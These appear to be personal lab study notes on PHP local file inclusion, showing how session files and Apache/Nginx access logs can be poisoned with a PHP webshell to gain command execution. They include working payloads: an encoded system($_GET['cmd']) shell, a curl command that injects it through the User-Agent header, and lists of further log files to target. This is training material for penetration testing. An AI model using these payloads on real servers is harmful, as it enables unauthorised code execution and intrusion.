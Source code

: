 ## PHP Session Poisoning via local file inclusion
nignx and apache store log files, if we can abuse the lfi to read these log files, we can poison user agent header with webshell and then access the webshell by browsing to the log file location.

Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.
obtain the session name 
![](Pasted%20image%2020250503005339.png)
As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents:
`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`
![](Pasted%20image%2020250503005429.png)
we can see that the `page` parameter value is the one we can control here.

Let's try setting the value of `page` a custom value and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
![](Pasted%20image%2020250503005620.png)
we can write a basic php shell and write it to language param
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
now supposedly the session cookie should hold that webshell, lets try to access where the session is stored on the server by LFI vulnerability
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
![](Pasted%20image%2020250503005900.png)
## Server Log Poisoning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header.
Once poisoned, we need to include the logs through the LFI vulnerability,and for that we need to have read-access over the logs.

`Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups). However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users.

read apache logs
`?language=/var/log/apache2/access.log`
read nginx logs
``  ?language=/var/log/nginx/access.log 
poison  logs for NGINX and Apache with curl
```
$ echo -n "User-Agent: <?php system($_GET['cmd']); ?>" > Poison
$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```
with proxy:

![](Pasted%20image%2020250503010450.png)
![](Pasted%20image%2020250503010512.png)
![](Pasted%20image%2020250503010655.png)
**:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability.